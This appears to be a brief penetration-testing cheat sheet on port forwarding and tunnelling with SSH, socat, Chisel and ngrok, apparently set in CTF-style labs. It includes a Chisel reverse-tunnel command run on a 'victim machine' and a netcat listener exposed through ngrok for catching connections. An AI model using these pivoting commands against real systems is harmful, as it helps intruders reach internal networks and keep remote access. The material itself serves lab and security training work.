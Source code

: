 - [SSH](#ssh)
- [Socat](#socat)
- [Chisel](#chisel)
- [Ngrok](#ngrok)
- [References](#references)

## SSH 

**Local PortForward** 

```
ssh –L 5901:10.10.10.48:4492 root@10.10.10.47
```

**Remote PortForward** 

```
ssh –R 9999:localhost:8080 root@10.10.10.48
```

## Socat 

Make sure the machine have socat and if dont please get on that machine a socat binary.

```
./socat tcp-listen:9999,fork tcp:127.0.0.1:25 &
```


## Chisel 

Please make sure both are the same version. Please download the latest release of Chisel on the link below:

https://github.com/jpillora/chisel/releases

```
#On Our Machine
./chisel server -p 4442 -v -reverse

#On Victim Machine
chisel64.exe client 10.10.14.8:4442 R:8200:127.0.0.1:8888
```

## Ngrok 

**Ngrok** - a cross-platform application that enables developers to expose a local development server to the Internet with minimal effort

1. Sign Up - https://dashboard.ngrok.com/

2. Download suitable ngrok for your OS

3. unzip /path/to/ngrok.zip

4. ./ngrok authtoken <AUTH-TOKEN>

```
#TCP
./ngrok tcp 9001

-> Then nc -lnvp 9001

#HTTP
./ngrok http 9001

-> Then python -m SimpleHTTPServer 9001
```


# References 
[1] https://phoenixnap.com/kb/ssh-port-forwarding#htoc-remote-port-forwarding-with-openssh

[2] https://github.com/jpillora/chisel

[3] https://ngrok.com/